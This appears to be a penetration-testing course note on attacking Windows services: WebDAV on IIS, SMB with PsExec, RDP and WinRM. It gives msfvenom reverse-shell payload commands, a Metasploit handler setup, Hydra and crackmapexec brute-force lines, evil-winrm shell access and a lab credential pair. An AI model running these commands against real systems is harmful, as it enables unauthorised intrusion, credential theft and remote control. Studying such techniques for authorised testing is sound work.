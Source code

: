 
---


## Exploiting Microsoft IIS WebDAV



Go back to Lesson 1 (Vulnerability Assessment) under Assessment_Methodology

---


## Exploiting WebDAV with MSF


Instead of uploading a reverse shell file that Kali has by using cadaver tool, we will use MSF venom to create the reverse shell code ourselves.

To create a meterpreter reverse shell session using msfvenom: `msfvenom -p windows/meterpreter/reverse_tcp LHOST=(our IP addrress) LPORT=(port number we will listen to) -f (file format) > (filename.fileformat ) `

**If we are not sure about the architecture of the target we are dealing with whether it was 32-bit or 64-bit, choosing 32-bit will work either way.**

This will generate to us a script in the format that we specified in a file that we specified its name.

In our example, we create a .asp file that we will upload to the WebDAV service that is running on our target using cadaver.

After uploading the reverse shell file, we will start postgresql and msf  as usual.

In msfconsole, we will start the module multi/handler by :`use multi/handler`  which is a **universal payload handler** used to catch and interact with reverse shells and Meterpreter sessions from compromised targets.

We will use the same payload name that we specified earlier, in our case is "windows/meterpreter/reverse_tcp" and we also need to specify our IP address and port number. **IP address and port number have to be the same as we specified in the reverse shell file that we created earlier.**
The entire command to set this up is:
```bash 
msf6> use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST (your IP address)
set LPORT (open port number)
run 
```

Then, we click on the file that we uploaded on the target site to execute the code and to create a meterpreter session in msf.

After getting a meterpreter session in msf, we can switch to a shell session to have full functionality of a command line by: `shell`

**Luckily, there is a msf module that we can use that would automate the whole process for us, the module is: "exploit/windows/iis/iis_webdav_upload_asp"**

Note: when specifying the path, we need to also specify the filename with its extension (always .asp in this case).

The module will need the valid credentials to access the WebDAV service for it to work. 

---

## Exploiting SMB With PsExec

### SMB Authentication

The SMB protocol utilizes two levels of authentication:
- User Authentication
- Share Authentication

**User Authentication:** Users must provide a username and password to access the SMB server and to access the shares.
**Share Authentication**: Users must provide a password in order to access restricted shares.

**Note: Both of these authentication levels utilize a challenge response authentication system**

### PsExec

PsExec is a lightweight telnet-replacement developed by Microsoft that allows us to execute processes on remote windows systems using any user's credentials.

PsExec authentication is performed by SMB.

We can use the PsExec utility to authenticate with the target system legitimately and run arbitrary commands or launch a remote command prompt.

It is very similar to RDP, however, instead of controlling the remote system via GUI, command are sent via CMD.

In order to utilize PsExec, we need a set of valid credentials that has a username and password or password hash.

We can obtain a valid set of credentials by performing brute force attack on SMB 

After using the "scanner/smb/smb_login" module in msf to brute force a valid set of credentials, **we will use the "psexec.py" script to have a reverse shell to the target. This script could be found under "/usr/share/doc/python3-impacket/examples"**

To use it:`python3 ./psexec.py (username):(password)@(target IP)`

---

## Exploiting Windows MS17-010 SMB Vulnerability (EternalBlue)


Refer to Lesson 2 (Vulnerability Analysis) in Assessment_Methodologies/Vulnerability Assessment.

---


## Exploiting RDP

RDP authentication requires a valid user account on the target system as well as the password in clear text.
We can preform an RDP brute-force attack to identify valid credentials.

Sometimes, Nmap can't reveal what service is running on some ports. To make sure that RDP is running on a certain port, we can use the MSF module: "scanner/rdp/rdp_scanner". This will reveal to us whether if RDP is running on a certain port or not.

To brute-force RDP, we will use Hydra:`hydra -L (users list) -P (passwords list) rdp://(targetIP):(port)`

**Note: To be more quieter and to not crash the service we are brute-forcing in to, we can reduce the parallel tasks that hydra is doing by using the option "-t"**

**After getting valid credentials, we will use a tool called "- xfreerdp"** to connect via RDP.

We will use it like so:`xfreerdp /v:(target-ip) /u:(username) /p:(password)`

---

## Exploiting WinRM

Microsoft implemented WinRM in to Windows in order to make life easier for system administrators. 

WinRM is typically used in the following ways:
- Remotely access and interact with Windows hosts on a local network.
- Remotely access and execute commands on Windows systems.
- Manage and configure Windows systems remotely.

**WinRM typically uses TCP port 5985 and 5986 over HTTPS.**

WinRM implements access control and security for communication between systems through various forms of authentication.

**We can utilize a utility called "crackmapexec" to perform a brute-force on WinRM in order to identify users and their passwords as well as execute commands on the target system.**

**We can also utilize a ruby script called "evil-winrm" to obtain a command shell session on the target system.**

We can use crackmapexec like so: `crackmapexec winrm (target IP) -u (username or usernames list file) -p (password or passwords list file)`

administrator:tinkerbell

We can use crackmapexec to execute commands as well by using the option:"-x". For example, if we want to execute the command to know what user we are logged in as, we can do so by: `crackmapexec winrm (target IP) -u (valid username) -p (valid password) -x "whoami"`

To use evil-winrm:`evil-winrm -i (target IP) -u (valid username) -p (valid password)` . This will give us a reverse shell session on the target machine.

We can use a MSF module to help us performing a  brute-force attack on WinRm service: "scanner/winrm/winrm_login"

**We can also use the exploit model in MSF to get a meterpreter session to the target system: windows/winrm/winrm_script_exec**

